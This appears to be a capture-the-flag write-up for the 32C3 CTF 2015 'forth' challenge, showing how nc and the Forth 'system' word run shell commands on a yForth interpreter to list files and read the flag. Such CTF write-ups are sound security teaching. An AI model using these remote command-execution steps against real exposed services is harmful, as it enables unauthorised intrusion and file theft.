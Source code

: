 # 32C3 CTF 2015 : forth

**Category:** Pwn
**Points:** 150
**Solves:** 372
**Description:**

> Connect to 136.243.194.49:1024 and get a shell.


## Write-up

by [polym](https://github.com/abpolym)

Connecting to the services with `nc` yields some important information about what type of service we are dealing with:

```bash
$ nc 136.243.194.49 1024
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
s
[s] error(2): unknown word.
```

Seems like [`yForth`](https://packages.debian.org/wheezy/yforth) is an interpreter for the Forth language.

Our ultimate goal is to execute commands on the machine, so we search for `execute command forth` to find [a rosetta link](http://rosettacode.org/wiki/Execute_a_system_command#Forth) that explains and lists how to execute commands in different languages, including the Forth language:

	s" ls" system

Testing this yields in an output of `ls` on the 32c3 server:

```bash
echo 's" ls" system' | nc 136.243.194.49 1024
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
flag.txt  README.gpl  run.sh  yforth
ok
```

We just have to read the flag:

```bash
$ echo 's" cat flag.txt" system' | nc 136.243.194.49 1024 | tail -n+5
32C3_a8cfc6174adcb39b8d6dc361e888f17b
ok
```

PS: We can also read the contents of `README.gpl` and `run.sh` to see how the challenge is executed to test it locally:

```bash
$ echo 's" cat run.sh" system' | nc 136.243.194.49 1024 | tail -n+5
#!/bin/sh
exec socat TCP-LISTEN:1024,fork,reuseaddr EXEC:./yforth,echo=0,pty,stderr
ok
```

## Other write-ups and resources

* <https://github.com/TactiFail/CTF-Writeups/blob/master/2015/32C3/pwn/forth.md>
* <http://securityerror.github.io/blog/12292015/forth.html>
* <https://nuc13us.wordpress.com/2015/12/30/32c3-ctf-writeup-forth-150/>
* <http://nopat.ch/2015/12/30/32c3ctf-pwn-forth/>
* <http://nandynarwhals.org/2015/12/30/32c3ctf-forth-pwn-150/>
* <https://github.com/p4-team/ctf/blob/master/2015-12-27-32c3/forth_pwn_150/README.md#eng-version>
* <https://www.youtube.com/watch?v=12el1zm99e4>
* [Execute a cmd with forth](http://rosettacode.org/wiki/Execute_a_system_command#Forth)
